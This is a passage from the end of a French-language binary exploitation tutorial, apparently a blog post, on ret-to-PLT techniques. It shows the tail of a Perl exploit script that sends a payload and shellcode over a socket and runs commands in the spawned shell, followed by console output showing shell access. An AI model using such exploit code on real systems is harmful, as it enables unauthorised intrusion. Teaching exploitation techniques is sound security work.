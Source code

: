 	# Send payload
	print $sock $payload;

	sleep(1);

	# The payload is executed, now you can send your shellcode !
	print $sock $shellcode;

	sleep(1);

	# The shell is now spawned : you can send commands !
	print $sock "id\nexit\n";

	while(($buff = <$sock>)) {
		print $buff;
	}

Lançons-le :

	:::console
	$ perl sploit.pl
	uid=1000(tosh) gid=100(users) groups=100(users)

Bingo !

Le ret to PLT clos la première partie de cet article.

Il est à noter que toutes ces techniques peuvent bien sûr être combinées suivant les besoin et suivant les cas.
N'oubliez pas que chaque exploitation de vulnérabilité est unique en son genre, le plus important est d'être inventif !

Une deuxième partie de cet article devrait voir le jour, avec des nouvelles techniques de ROP pour être encore plus efficace dans l'exploitation de failles applicatives !

J'espère que ça vous à plût, n'hésitez pas à envoyer votre feedback !

Happy Hacking !

-Tosh-
